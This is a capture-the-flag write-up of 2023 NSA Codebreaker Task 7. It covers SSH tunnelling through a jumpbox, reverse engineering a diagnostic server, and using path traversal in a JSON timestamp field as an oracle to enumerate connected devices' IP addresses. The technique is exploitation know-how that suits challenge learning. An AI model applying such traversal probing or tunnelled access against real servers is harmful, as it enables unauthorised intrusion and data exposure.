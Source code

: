 # 2023 NSA Codebreaker 
#### Task 7 - There is Another - (Reverse Engineering, Exploitation)

```
Intelligence sources indicate with high probably there is a second device somewhere. We don't know where it is physically, but maybe you can find it's IP address somehow. We expect it is one of the up to 2^20 devices connected to the Blue Horizon Mobile network. Blue Horizon Mobile has explained that their internal network is segmented so all user devices are in the 100.64.0.0/12 IP range.

Figure out how the device communicates with the IP you found in the previous task. It must only do so on-demand otherwise we would have probably discovered it sooner. This will probably require some in depth reverse engineering and some guess work. Use what you learn, plus intuition and vulnerability research and exploitation skills to extract information from the server somehow. Your goal is to determine the IP addresses for any devices that connected to the same server. There should be two addresses, one for the downed device, and another for the second device. Your jumpbox account has been updated to allow you to open TCP tunnels to the server (reconnect to enable the new settings). Remember the jumpbox internal IP is 100.127.0.2

```

## Connecting to the server

This task continues from task 6, where we found an IP address. We are utilizing our jumpbox to ssh into the said IP address

I first created an SSH tunnel using the jumpbox:
```
sudo ssh -D 9051 -i jumpbox.key user@external-support.bluehorizonmobile.com
```

The IP address we have to connect to requires a username. The username can be found in one of the binaries we received in task 5 by reverse engineering it with Ghidra:
```
SSH_USERNAME=nonroot_user
BALLOON_ID=<some-uuid>
PRIVATE_KEY_PATH=<path-to-id_ed25519>

export EXPECTED_HOST_KEY=$(cat <expected_host_key>)

# guessing now

SSH_SERVER_ADDRESS
SSH_SERVER_PORT
```

The IP address also requires a ssh key, this is found in the QEMU machine we received in an earlier task.


I used proxychains to send commands on the jumpbox host to communicate with the IP address we found in task 6 using the private key and the ssh username:
```
proxychains ssh -i private_key -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" nonroot_user@100.80.144.142
```

## Solution

Upon running the previous command, we receive what looks to be an initialization for a server that appears to be waiting for data:

```
alexander@MOTHERSHIP:~/Desktop$ proxychains ssh -i private_key -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" nonroot_user@100.80.144.142
ProxyChains-3.1 (http://proxychains.sf.net/)
|D-chain|-<>-127.0.0.1:9051-<>-127.0.0.1:9051-<--timeout
|D-chain|-<>-127.0.0.1:9051-<><>-100.80.144.142:22-<><>-OK
Warning: Permanently added '100.80.144.142' (ED25519) to the list of known hosts.
PTY allocation request failed on channel 0
2023/10/09 04:53:36 Diagnostic Server starting...
2023/10/09 04:53:41 ready
{diagserver} 2023/10/09 04:53:41.071941 Starting connection timer...
```

Proceeding with this challenge past this point requires **a lot** of trial and error. After playing wtih it for some time, I found that the server only accepts HTTP POST requests to a directory named _/diagnostics_. 

After finding the directory, I found that the server kept telling me that it required a command response with every status update:

```
{diagserver} 2024/01/13 00:13:28.069954 received StatusUpdate without CommandResponse

{"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}{diagserver} 2024/01/13 00:13:28.069984 json encoded next command: [123 34 105 100 34 58 34 48 48 48 48 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 45 48 48 48 48 48 48 48 48 48 48 48 48 34 44 34 99 109 100 95 110 97 109 101 34 58 34 34 44 34 99 109 100 95 97 114 103 115 34 58 110 117 108 108 125] err: <nil>

{diagserver} 2024/01/13 00:13:28.070003 Content-Length: 75
{diagserver} 2024/01/13 00:13:28.070007 server to client body: {"id":"00000000-0000-0000-0000-000000000000","cmd_name":"","cmd_args":null}
```
Inspecting the diagserver binary more, I found a CommandResponse struct that I recreated in JSON:

```
struct main.CommandResponse {
    byte Id[16];
    struct string.conflict Starttime;
    struct string.conflict Endtime;
    struct string.conflict Cmd;
    struct string.conflict Stdout;
    struct string.conflict Stderr;
    struct string.conflict Err;
};
```
Finding this, I did craft a POST request similar to this:

```
POST /diagnostics HTTP/1.1
Content-length: 10000


{
  "status_data": {
    "balloon_id": "55899311-b002-483d-a7ba-c1cde03ea2b3"
  },
  "command_response": {
    "id": "55899311-b002-483d-a7ba-c1cde03ea2b3",
    "starttime": "2023-10-09T17:08:41.2260Z",
    "endtime": "2023-10-09T17:13:41.2260Z"
  }
}
```

Here's a similar response I received after sending this:

```
{diagserver} 2023/11/04 18:40:46.319160 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/2023/11/04 18:36:55.67755.json: no such file or directory
```

Seeing this response and fuzzing our inputs, I found that the request that we send attempts to store the data into a directory that matches our IP address. The challenge states that we have to find 2 IP addresses that have connected to this server. 

Drawing some inferences and doing more fuzzing, I figured out that I needed to find a directory that exists using directory traversal in our _starttime_ field. A directory that exists is defined as a response with the words "permission denied".

```
2023/11/04 19:13:56 Diagnostic Server starting...
2023/11/04 19:14:01 ready
{diagserver} 2023/11/04 19:14:01.150118 Starting connection timer...
{diagserver} 2023/11/04 19:14:01.150285 received StatusUpdate with CommandResponse
{diagserver} 2023/11/04 19:14:01.150338 Error storing CommandResponse to /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: open /diagnostics/var/logs/commands/by-ip/64/7F/00/02/../aaaaaaaaaaaaaaaaaaaaaa.json: permission denied
{diagserver} 2023/11/04 19:14:01.150353 HTTP/1.1 500 Internal Server Error
{diagserver} 2023/11/04 19:14:01.150360 Content-Length: 0
{diagserver} 2023/11/04 19:14:01.150365 server to client body:
{diagserver} 2023/11/04 19:14:01.233391 EOF
```

Within the challenge, we are given a subnet with which the two IP addresses are that we need to find. If we create a script that repeatedly sends post requests to every ip address, this is going to take a VERY long time. 

Explained simply, we will start with the first octet and iterate over 255 possible numbers via directory traversal to find the FIRST OCTET of the two ip addresses. For the 2 returned "permission denied" responses, we add the octet that returned a "persmission denied" to our directory traversal and move to the next octet until we find the full ip addresses.

My spaghetti code for this process is within this repository!
